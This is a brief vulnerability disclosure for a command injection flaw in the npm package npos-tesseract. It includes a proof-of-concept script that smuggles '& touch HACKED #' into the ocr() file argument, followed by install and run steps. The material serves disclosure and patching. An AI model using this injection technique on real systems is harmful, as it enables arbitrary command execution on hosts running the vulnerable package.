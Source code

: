 # Description

Command Injection in npos-tesseract

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var a = require("npos-tesseract");
a.ocr("& touch HACKED #","",function(){});
```

2. Execute the following commands in terminal:

```
npm i npos-tesseract # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.
